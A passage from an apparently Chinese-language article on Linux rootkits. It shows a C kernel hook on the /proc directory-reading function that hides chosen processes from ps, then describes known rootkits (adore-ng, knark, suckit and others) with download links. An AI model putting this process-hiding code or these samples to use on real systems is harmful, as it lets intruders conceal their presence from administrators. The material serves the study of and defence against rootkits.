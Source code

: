 上文提到，ps命令是通过读取/proc文件系统下的进程目录获得进程信息的，只要能够隐藏/proc文件系统下的进程目录就可以达到隐藏进程的效果。
以下是基于/proc目录读取函数劫持的进程隐藏代码：  
``` c
static int proc_readdir_new(struct file *filp, void *dirent, filldir_t filldir)
{
    proc_filldir_orig = filldir;
    return proc_readdir_orig(filp, dirent, proc_filldir_new);
}
//CALLBACK SECTION
static int proc_filldir_new(void *buf, const char *name, int namelen, loff_t offset, u64 ino, unsigned d_type)
{
    int i;
    for (i=0; i < current_pid; i++) 
    {
        /*
        当检测到指定的需要隐藏的进程时，直接returned返回，即直接跳过这个进程的枚举
        */
        if (!strcmp(name, pids_to_hide[i])) 
        {
            return 0;
        } 
    }
    if (!strcmp(name, "rtkit")) 
    {
        return 0;
    }
    return proc_filldir_orig(buf, name, namelen, offset, ino, d_type);
}
```
## 0x08 Rootkit Sample

1). adore-ng(lkm)。adore-ng不修改系统调用层的内容，而是通过修改VFS（Virtual Filesystem Switch)层的具体处理函数，如替换VFS层的 file_ops等函数，来实现信息隐藏目的。原理细节可参考：[adore-ng learning](http://www.cnblogs.com/LittleHann/p/3879961.html#commentform). 下载： [adore-ng 0.41](https://packetstormsecurity.com/files/32843/adore-ng-0.41.tgz.html), [adore-ng github for linux 2.6 and 3.x](https://github.com/chonghw/adore-ng)  

2). knark(Hooking system call). 行为：隐藏或显示文件或目录； 隐藏TCP或UDP连接；程序执行重定向；非授权地用户权限增加(“rootme”)； 改变一个运行进程的UID/GID的工具；非授权地、特权程序远程执行守护进程(后门端口)；Kill –31: 隐藏运行的进程；调用表修改: rootkit通过修改导出的系统调用表，对与攻击行为相关的系统调用进行替换，隐藏攻击者的行踪。 原理细节可参考： [kark learning](http://www.cnblogs.com/LittleHann/p/3879961.html#commentform) .下载：[knark download](https://packetstormsecurity.com/files/24853/knark-2.4.3.tgz.html)  

3).suckit. 行为：采用动态隐藏的方式来隐藏指定的内容，包括文件、进程、以及网络连接。suckit不同于其它基于lkm的hooking rootkit，没有修改系统调用表的内容，而是首先拷贝了系统调用表，然后将拷贝的系统调用表按照攻击者的意图进行修改执行攻击者改写的系统调用响应函数,然后将system_call（INT 80服务程序)从旧的系统调用表上移开，指向新的系统调用表. 有关suckit原理详细介绍，可参考: [suckit learning](http://www.hacker.com.cn/uploadfile/2013/0416/20130416020443596.pdf)。 下载：[suckit download](https://packetstormsecurity.com/files/40690/suckit2priv.tar.gz.html)  

其它rootkit samples还包括：[enyelkm](https://github.com/David-Reguera-Garcia-Dreg/enyelkm)，[wnps](http://www.cnblogs.com/LittleHann/p/3879961.html#commentform)， [brootkit](https://github.com/cloudsec/brootkit)（其中brootkit详细介绍可参考[brookit analysis](http://www.cnblogs.com/LittleHann/p/4321826.html)）， [xingyiquan](https://packetstormsecurity.com/files/128945/Xingyiquan-Linux-2.6.x-3.x-Rootkit.html)，[synapsys](https://packetstormsecurity.com/files/24482/Synapsys-lkm.tar.gz.html) 。  